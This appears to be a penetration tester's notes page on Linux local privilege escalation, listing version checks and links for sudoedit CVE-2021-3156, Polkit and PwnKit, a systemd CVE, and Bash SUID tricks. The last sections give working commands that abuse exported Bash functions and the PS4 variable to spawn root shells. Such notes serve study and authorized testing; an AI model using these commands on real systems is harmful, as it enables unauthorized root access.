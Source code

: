 ```yaml
---
title: Linux Userspace Privilege Escalation Exploits
---
```


[[notes/linux/escalation]] trough userspace exploits.

List installed packages and their versions.

~~~ bash
dpkg -l || rpm -qa
~~~

# Sudoedit Heap Overflow CVE-2021-3156

Affects all `sudo` legacy versions from 1.8.2 to 1.8.31p2 and all stable versions from 1.9.0 to 1.9.5p1.
Exploitation does not require membership in the `sudo` / `wheel` group.

Check.

~~~ bash
sudoedit -s '\' `perl -e 'print "A" x 65536'`
sudo -s '\\' `perl -e 'print "A" x 65536'`
~~~

# Polkit CVE-2021-3560

Affects polkit >= 0.113 and >= 0.105-26 on Debian.

The exploit [CVE-2021-3560.py](http://web.archive.org/web/20230729182550/https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py) was successfully tested against polkit 0.115-6 on Cent OS 8.

Check version.

~~~ bash
grep -aF polkitd- /usr/lib/polkit-1/polkitd
~~~

References:

- [Privilege escalation with polkit: How to get root on Linux with a seven-year-old bug](http://web.archive.org/web/20230707035106/https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)

# PwnKit CVE-2021-4034

Untested exploits:

- [blasty-vs-pkexec.c](http://web.archive.org/web/20221006105914/https://haxx.in/files/blasty-vs-pkexec.c)
- [blasty-vs-pkexec2.c](http://web.archive.org/web/20221006105959/https://haxx.in/files/blasty-vs-pkexec2.c)

References:

- [PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](http://web.archive.org/web/20221006110059/https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

# sudo systemctl status

Affects Systemd before v247.

References:

- [CVE-2023–26604](http://web.archive.org/web/20230406145953/https://scribe.rip/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7)

# Bash Function with Slashes

With Bash < 4.2-048 and a SUID binary that calls another program by absolute path, create a bash function named like the path.

~~~
$ strings /usr/local/bin/suid-binary
...
/usr/sbin/service apache2 start
...
$ function /usr/sbin/service { /bin/bash -p; }
$ export -f /usr/sbin/service
$ /usr/local/bin/suid-binary
~~~

# Bash PS4

With Bash < 4.4 and a SUID program evaluating/running bash scripts the `PS4` environment variable is inherited.

~~~ bash
env -i SHELLOPTS=xtrace PS4='$(bash -p)' /usr/local/bin/pwn-me
~~~
